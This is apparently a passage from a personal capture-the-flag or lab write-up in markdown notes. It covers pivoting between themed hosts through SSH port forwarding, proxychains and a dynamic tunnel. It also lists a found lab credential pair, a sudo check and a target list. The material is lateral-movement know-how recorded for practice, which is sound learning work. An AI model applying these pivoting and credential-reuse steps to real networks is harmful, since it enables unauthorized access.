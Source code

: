 or
#### Forwarding port to "Lust"
```
ssh -N -L 333:172.1.98.15:80 virgil@192.168.1.200
```
```
firefox 127.0.0.1:333
```
![[Pasted image 20250604112916.png]]

#### Credentials Discovered
```
cleopatra:desire
```

##### Testing ftp with credentials
- credentials work but ftp isn't configured
![[Pasted image 20250604113758.png]]

##### Testing ssh with credentials
```
proxychains ssh cleopatra@172.1.98.15
```
![[Pasted image 20250604114051.png]]

##### Sudo privileges
```
sudo -l
```
![[Pasted image 20250604114119.png]]

##### Network Configuration
![[Pasted image 20250604114347.png]]
- referring back to "welcome.txt" file from "Limbo" this tracks to have our next target being Cerberus@10.1.10.3
```
cleopatra@172.1.98.15
Cerberus@10.1.10.3 #why is this C capitalized?
pluto@10.0.0.254
phlegyas@255.255.255.9
epicurus@9.9.9.8
minotaur@222.222.222.187
geryon@3.3.3.3
satan@6.6.6.6
??@72.69.76.?
```

### Gluttony
- IP - 10.1.10.3

###### Setup a NEW dynamic tunnel to reach 10.1.10.3
```
ssh -N -D 1080 -j virgil@192.168.1.200 cleopatra@172.1.98.15
```
